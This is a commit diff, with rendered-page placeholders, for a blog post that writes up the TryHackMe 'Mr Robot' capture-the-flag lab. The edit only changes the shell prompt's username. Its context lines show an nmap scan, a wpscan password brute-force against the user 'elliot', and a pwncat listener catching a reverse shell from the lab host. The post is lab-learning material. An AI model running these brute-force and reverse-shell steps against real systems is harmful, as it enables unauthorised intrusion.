

Before and after one commit to darksec1337/darksec1337.github.io, a Jekyll site: the page built from _posts/2020-09-21-mrrobotctf-writeup.md, in a window 1280 px wide and 900 px high, scrolled down 885 px. Shown: the part 152-452 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2020-09-21-mrrobotctf-writeup.md

````diff
--- a/_posts/2020-09-21-mrrobotctf-writeup.md
+++ b/_posts/2020-09-21-mrrobotctf-writeup.md
@@ -30,7 +30,7 @@
 ### Enumeration
 
 ```bash
-┌─[argenestel@parrot]─[~/Desktop/tryhackme/robotctf]
+┌─[root@parrot]─[~/Desktop/tryhackme/robotctf]
 └──╼ $nmap -sC -sV -oN nmap/robot 10.10.183.108
 Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-21 12:11 IST
 Nmap scan report for 10.10.183.108
@@ -116,7 +116,7 @@
 so we are now going to upload a reverse shell.
 
 ```bash
-┌─[argenestel@parrot]─[~/Desktop/tryhackme/robotctf]
+┌─[root@parrot]─[~/Desktop/tryhackme/robotctf]
 └──╼ $wpscan --url http://mrrobot.thm -P uniq.list --usernames elliot
 _______________________________________________________________
          __          _______   _____
@@ -224,7 +224,7 @@
 we have pwncat listening.
 
 ```bash
-┌─[argenestel@parrot]─[~/Desktop/tryhackme/robotctf]
+┌─[root@parrot]─[~/Desktop/tryhackme/robotctf]
 └──╼ $pwncat --listen --port 1234
 [15:37:16] received connection from 10.10.239.89:51343                                                     connect.py:148
 [15:37:18] new host w/ hash 243b586998c75238b33cb10b9ad0ab52                                                victim.py:325
````
